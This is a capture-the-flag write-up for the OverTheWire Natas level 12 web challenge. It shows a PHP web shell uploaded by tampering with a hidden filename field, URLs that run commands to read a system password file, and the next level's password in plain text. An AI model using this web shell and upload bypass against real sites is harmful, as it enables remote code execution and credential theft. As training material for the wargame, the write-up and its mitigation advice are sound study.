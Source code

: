 # 🕵️ Natas - Level 12 (🇺🇸 English)  
*Date: 2025-06-03*  
*Difficulty: Intermediate*  
*Category: Web*   

---

## 🎯 Objective

The objective of this challenge is to identify and exploit a file upload vulnerability that allows client-side filename manipulation, resulting in Remote Code Execution (RCE) to obtain the next level password (Natas13).  

---

## 🔎 Analysis

- The web application at `http://natas12.natas.labs.overthewire.org/` offers a JPEG image upload functionality with a 1KB size limit.  
- Common extension bypass attempts (e.g. `.php.jpg`, `test.php%00.jpg` - null byte) did not work, as the server always appends `.jpg` to the final filename, invalidating execution as PHP.  
- Analysis of the HTML page's source code revealed a hidden field in the upload form: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- This hidden field pre-defines the name of the file that will be saved on the server, including the `.jpg` extension, before the user even selects the file for upload.  
- The vulnerability lies in the fact that the final file name is controlled by a pre-populated value on the client side (via the `hidden` field), which can be intercepted and manipulated.  
- Our goal is to change the extension from `.jpg` to `.php` in the `filename` field of the HTTP request so that the server saves our file with the correct extension.  
- The payload to be sent will be a simple PHP shell: `<?php system($_GET['cmd']); ?>`, allowing the execution of commands via the `cmd` parameter in the URL.
  
---

## 🧱 Steps

1. Access the Application: Navigate to `http://natas12.natas.labs.overthewire.org/`.   
2. Test the Upload: Try to upload a file to observe the server behavior (renaming it to `.jpg`).   
3. Analyze the Source Code: Inspect the HTML code of the upload page to identify the `input type="hidden" name="filename"` field.   
4. Prepare the Payload: Create a PHP file (e.g. `bypass.php`) with the content `<?php system($_GET['cmd']); ?>`.   
5. Intercept the Request: Using the `Burp Suite` proxy tool to capture the file upload request.  
6. Manipulate the File Name: In the intercepted request, locate the `filename` parameter and change its extension to `.php` (ex: c36r0bea02.jpg to c36r0bea02.php).  
7. Send the Request: Send the modified request to the server.  
8. Verify Upload: The server will return a message confirming the upload of the file with the .php extension (e.g.: The file `upload/dnfplwi4tz.php` has been uploaded).  
9. Access the Web Shell: Navigate to the URL of the newly uploaded PHP file (e.g.: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observe the error messages ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), which confirm that PHP is interpreting the file.  
10. Run Commands: Test the execution of commands by adding the cmd parameter to the URL (e.g. `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirm the RCE.  
11. Get the Password: Run the command to read the Natas13 password file: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.

---

## 🔑 Password Found

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusion

The vulnerability was successfully exploited by manipulating the filename field of a hidden input in the upload form, which was filled out on the client side. This allowed bypassing server-side extension validation and uploading from a PHP shell. Remote code execution was confirmed and the password for the next level was obtained. This case highlights the danger of relying on any type of client-side input control for application security, especially for upload functionality.

---

## 🧪 Commands Used


Access to web shell (after upload and name manipulation):   
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php`   
Verify RCE:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=pwd`    
Get Natas13 password:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=cat%20/etc/natas_webpass/natas13`    

---

## 🧠 Observations

- Server-Side Validation is Crucial: Never rely on client-side validations (JavaScript, hidden HTML fields). Always re-validate all input on the server side.   
- Whitelist for Extensions and MIME Types: Instead of blacklists, use whitelists for file extensions and MIME types allowed for upload.   
- Secure File Renaming: When renaming files, use a randomly generated name and a server-validated extension, without allowing any user input in the final name or extension.   
- Upload Isolation: Files uploaded by users should be stored in a directory outside the web root or configured to not allow script execution.  

---

## 📎 Scripts Developed

[bypass.php](https://github.com/ItacarambiSec/Projects/blob/main/Ctf-scripts/Overthewire_natas/bypass.md): A simple PHP shell (`<?php system($_GET['cmd']); ?>`) used for remote command execution.

---

<p align="center"> <a href="../Natas11/Readme.md">⬅️ Previous</a> • <a href="../Natas13/Readme.md">Next ➡️</a> </p>
